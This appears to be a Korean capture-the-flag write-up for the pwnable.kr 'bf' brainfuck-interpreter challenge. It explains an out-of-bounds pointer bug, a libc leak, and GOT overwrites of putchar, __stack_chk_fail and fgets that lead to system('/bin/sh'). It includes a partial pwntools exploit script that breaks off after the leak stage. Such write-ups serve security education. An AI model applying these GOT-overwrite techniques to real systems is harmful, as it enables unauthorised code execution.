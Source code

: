 가장 원초적인 취약점은 `'<'`와 `'>'`를 만났을 때 발생한다. pointer의 범위가 `tape`에서 `p`를 넘어 GOT까지 도달할 수 있어, `getchar()`를 이용하여 1 byte 씩 덮어쓸 수 있다.

포인터를 `stdin`에 놓고 `putchar()`를 이용하여 libc 주소를 릭하고, `putchar()`의 GOT를 `main()`으로 덮어씌워서 `main()`을 다시 실행하도록 했다.

이제 구한 libc를 통해 `system("/bin/sh")`를 호출하도록 되게 해야하는데, 어떻게 할까하다가 두 번째 `main()`에서  `__stack_chk_fail()`을 `system()`으로 덮고, `fgets()`를 `gets()`로 덮기로 했다.

 `__stack_chk_fail()`에 대해서는, for 문을 지나고 canary 체크를 하는데 `strlen()`의 인자로 사용했던 영향인지 esp에 `fgets()`로 입력받은 로컬 변수 s의 주소가 저장되어 `system()`으로 덮었을 때 인자문제를 해결할 수 있다.

`fgets()`를 `gets()`로 덮는 이유는 canary를 덮어씌워 `__stack_chk_fail()`이 실행되게 하기 위함이다.

두 번째 `main()`에서도 마찬가지로 위의 동작을 수행한 뒤 아까 덮었던 `'.'`을 이용하여 다시 `main()`으로 돌아가면 이제 세 번째 `main()`이다.

세 번째 `main()`에서는 `s`에 `fgets()`(이제 `gets()`)로 입력을 받을 때 `"/bin/sh;"`를 앞에 두고 canary를 덮을만큼 충분한 값을 주면 세 번째 `main()`이 종료되면서 `__stack_chk_fail()`을 호출하여 최종적으로 `system("/bin/sh;~~~")`를 실행시킬 수 있다.

#### exploit

```python
#/usr/bin/python
from pwn import *

context.log_level='debug'
r = process('./bf', env={'LD_PRELOAD':'./bf_libc.so'})
#r = remote('pwnable.kr', 9001)
gdb.attach(r, 'b* 0x0804875b')
r.recvuntil('[ ]\n')

'''
.got.plt:0804A010 off_804A010     dd offset fgets 
.got.plt:0804A014 off_804A014     dd offset __stack_chk_fail
.got.plt:0804A030 off_804A030     dd offset putchar  
.bss:0804A040 stdin@@GLIBC_2_0
.bss:0804A080 p  
.bss:0804A0A0 tape  

main 08048671
'''

payload = ''
## libc leak ##
payload += '<'*(0x0804A0A0-0x0804A040-3)
payload += '.'
payload += '<'
payload += '.'
payload += '<'
payload += '.'
payload += '<'
payload += '.'
## putchar overwrite to return main ##
payload += '<'*(0x10-3)
payload += ',' # 0x71
payload += '<'
payload += ',' # 0x86
payload += '<'
payload += ',' # 0x04
payload += '<'
payload += ',' # 0x08
## return main()
payload += '.'

r.sendline(payload)

libc = 0
```